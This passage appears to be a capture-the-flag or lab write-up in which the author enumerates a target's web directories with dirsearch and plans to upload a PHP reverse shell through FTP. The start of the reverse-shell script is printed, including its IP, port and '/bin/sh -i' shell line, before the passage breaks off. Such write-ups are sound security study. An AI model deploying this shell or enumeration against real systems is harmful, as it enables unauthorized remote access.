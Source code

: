 # Enumerating Web-directories
```
death@esther:~$ dirsearch -u 10.10.231.18
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/death/reports/_10.10.231.18/_24-09-28_21-09-33.txt

Target: http://10.10.231.18/

[21:09:34] Starting: 
[21:09:42] 403 -  277B  - /.ht_wsr.txt
[21:09:42] 403 -  277B  - /.htaccess.bak1
[21:09:42] 403 -  277B  - /.htaccess.orig
[21:09:42] 403 -  277B  - /.htaccess.save
[21:09:42] 403 -  277B  - /.htaccess_extra
[21:09:42] 403 -  277B  - /.htaccess.sample
[21:09:42] 403 -  277B  - /.htaccess_sc
[21:09:42] 403 -  277B  - /.htaccessBAK
[21:09:42] 403 -  277B  - /.htaccess_orig
[21:09:42] 403 -  277B  - /.htaccessOLD
[21:09:42] 403 -  277B  - /.htaccessOLD2
[21:09:42] 403 -  277B  - /.htm
[21:09:42] 403 -  277B  - /.html
[21:09:42] 403 -  277B  - /.htpasswd_test
[21:09:42] 403 -  277B  - /.htpasswds
[21:09:42] 403 -  277B  - /.httr-oauth
[21:09:44] 403 -  277B  - /.php
[21:09:44] 403 -  277B  - /.php3
[21:10:20] 301 -  312B  - /files  ->  http://10.10.231.18/files/
[21:10:20] 200 -  511B  - /files/
[21:10:45] 403 -  277B  - /server-status/
[21:10:45] 403 -  277B  - /server-status

Task Completed
```
## There is directory called files let take a look.

<div align="center">
  <img src="https://github.com/user-attachments/assets/11198d1b-640a-45bd-979b-3ef9d9a2538b" height="300"></img>
</div>

## Its as we saw in FTP so maybe we can add file form ftp to this directory so let upload a reverse shell here.
```
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
```